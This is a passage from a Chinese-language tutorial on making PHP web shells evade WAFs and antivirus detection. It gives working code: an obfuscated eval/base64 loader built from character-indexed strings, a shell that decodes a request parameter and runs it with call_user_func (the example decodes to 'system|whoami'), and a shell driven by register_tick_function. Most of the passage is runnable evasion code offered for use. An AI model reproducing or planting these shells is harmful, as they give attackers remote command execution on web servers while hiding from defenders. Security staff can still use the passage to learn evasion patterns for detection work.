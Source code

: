 ### 8.2 嵌套运算

其实嵌套运算在WebShell免杀中算是常客了，让我们来看一下一个 `phpinfo()` 的嵌套运算

```php
$O00OO0=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$O00O0O=$O00OO0{3}.$O00OO0{6}.$O00OO0{33}.$O00OO0{30};$O0OO00=$O00OO0{33}.$O00OO0{10}.$O00OO0{24}.$O00OO0{10}.$O00OO0{24};$OO0O00=$O0OO00{0}.$O00OO0{18}.$O00OO0{3}.$O0OO00{0}.$O0OO00{1}.$O00OO0{24};$OO0000=$O00OO0{7}.$O00OO0{13};$O00O0O.=$O00OO0{22}.$O00OO0{36}.$O00OO0{29}.$O00OO0{26}.$O00OO0{30}.$O00OO0{32}.$O00OO0{35}.$O00OO0{26}.$O00OO0{30};

eval($O00O0O("JE8wTzAwMD0iU0VCb1d4VGJ2SGhRTnFqeW5JUk1jbWxBS1lrWnVmVkpVQ2llYUxkc3J0Z3dGWER6cEdPUFdMY3NrZXpxUnJBVUtCU2hQREdZTUZOT25FYmp0d1pwYVZRZEh5Z0NJdnhUSmZYdW9pbWw3N3QvbFg5VEhyT0tWRlpTSGk4eE1pQVRIazVGcWh4b21UMG5sdTQ9IjtldmFsKCc/PicuJE8wME8wTygkTzBPTzAwKCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwKjIpLCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwLCRPTzAwMDApLCRPTzBPMDAoJE8wTzAwMCwwLCRPTzAwMDApKSkpOw=="));
```

加密手法可以看我写的博客： [https://blog.zgsec.cn/archives/147.html](https://blog.zgsec.cn/archives/147.html) 

## 9# 传参绕过

将恶意代码不写入文件，而是通过传参传入，所以这个比较难以被常规WAF所识别

### 9.1 Base64传参

```php
$decrpt = $_REQUEST['a'];
$arrs = explode("|", base64_decode($decrpt));
call_user_func($arrs[0],$arrs[1]);
```

传参内容：

```php
a=c3lzdGVtfHdob2FtaSAg    //system|whoami  的base64加密
```

也可以尝试使用其他编码或者加密方式进行传参

### 9.2 函数构造传参

可以用一些定义函数的函数来进行传参绕过，比如使用 `register_tick_function()` 这个函数

```php
register_tick_function ( callable $function [, mixed $... ] ) : bool
```

例子如下：

```php
$f = $_REQUEST['f'];
declare(ticks=1);
register_tick_function ($f, $_REQUEST['aabyss']);
```

## 10# 自定义函数绕过
